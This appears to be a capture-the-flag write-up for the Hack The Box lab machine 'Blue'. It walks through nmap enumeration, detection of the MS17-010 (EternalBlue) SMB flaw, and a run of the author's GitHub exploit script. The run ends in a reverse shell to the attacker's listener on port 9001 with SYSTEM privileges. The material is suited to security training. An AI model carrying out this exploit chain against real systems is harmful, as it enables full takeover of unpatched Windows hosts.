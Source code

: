 # Blue

## Enumeration

Start with an nmap scan that will output every open port in grep format to the archive allPorts
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.40 -vvv -oG allPorts
```

After doing that I use a function named xps to extract the ports and run a command that will enumerate all the versions and scripts of each port 

```bash
$ xps allPorts
[+] command copied to clipboard, run:
sudo nmap -sVC -p135,139,445,49152,49153,49154,49155,49156,49157 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

I modified the output to only scan those related to smb and enumerate the scripts with "vuln and safe" categories

```bash
$ sudo nmap -sVC --script="vuln and safe" -p135,139,445 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

The scan shows that the machine is vulnerable to eternal-blue ms17-010

```java
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## shell as nt authority/system
To exploit this vulnerability I use a bash script I made that will automate all the process [bluepwn-ms17-010](https://github.com/sentreysec/bluepwn-ms17-010)

```bash
$ git clone https://github.com/sentreysec/bluepwn-ms17-010
$ cd bluepwn-ms17-010
$ ./bluepwn.sh
```

the process is the following first I retrieve the information of the target with the objective to know its architecture, in this case I have a x64 windows 7 machine  

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 1
[?] IP of the target: 10.10.10.40
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
[?] Would you like to go back?
[Y/n] y
```

Then I run the exploit setting up the correct parameters such as ip address port and architecture

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 2
[?] Target IP: 10.10.10.40
[?] Your IP: 10.10.14.13
[?] Your Port: 9001
[?] Architecture of the host
	[1] x86
	[2] x64
[>] 2
```

The tool automatically retries the exploit in order to make it work, finally after some retries it spawns a shell as nt authority\system

```bash
[!] Retrying...
If the issue persists is probably that the target machine got rebooted
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

